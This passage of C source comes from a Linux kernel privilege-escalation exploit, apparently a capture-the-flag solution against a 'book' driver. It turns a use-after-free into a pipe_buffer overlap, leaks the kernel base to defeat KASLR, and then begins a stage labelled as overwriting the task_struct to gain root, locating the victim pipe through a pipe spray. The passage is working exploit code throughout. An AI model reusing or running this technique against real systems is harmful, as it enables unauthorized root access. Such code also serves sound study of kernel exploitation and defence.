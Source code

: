 ```c

    for (int i = 0; i < MAX_BOOK_NR; i++) {
        for (int j = 0; j < MAX_PAGE_BOOK_NR; j++) {
            if (set_page(bookshelf[i], j)) {
                err_exit("FAILED at setting the page for book!");
            }

            if (read(bookshelf[i], buf, 0x100) < 0) {
                err_exit("FAILED at reading the book!");
            }

            if (buf[0] != *(size_t*) "arttnba3" && buf[2] > 0xffffffff81000000){
                book_idx = i;
                page_idx = j;
                goto out;
            }
        }
    }

out:
    if (book_idx < 0 || page_idx < 0) {
        err_exit("FAILED to transfer UAF to pipe_buffer!");
    }

    page_leak = buf[0];
    pipe_ops = (struct pipe_buf_operations*) buf[2];
    kernel_offset = buf[2] - ANON_PIPE_OPS;
    kernel_base = 0xffffffff81000000 + kernel_offset;

    printf("\033[32m\033[1m[*] Successfully make UAF on pipe_buffer with "
            "book \033[0m%d\033[32m\033[1m, page \033[0m%d\n", 
            book_idx, page_idx);
    printf("[*] Leak page addr: %lx\n", page_leak);
    printf("[*] Leak pipe_buf_ops: %p\n", pipe_ops);
    printf("\033[32m\033[1m[+] Successfully get kernel base: \033[0m%lx, "
           "\033[32m\033[1moffset: \033[0m%lx.\n",
           kernel_base,
           kernel_offset);
}

/**
 *  IV - SECOND exploit stage: overwrite the task_struct to root
*/

void find_uaf_pipe(void)
{
    size_t new_page = page_leak + 0x40;

    puts("[*] Overwriting pipe_buffer and seeking the UAF pipe...");

    write(bookshelf[book_idx], &new_page, sizeof(new_page));

    for (int i = 0; i < PIPE_SPRAY_NR; i++) {
        int nr;

        read(pipe_fd[i][0], &nr, sizeof(nr));
        if (nr != i) {
            orig_idx = nr;
            victim_idx = i;
            break;
        }
    }

```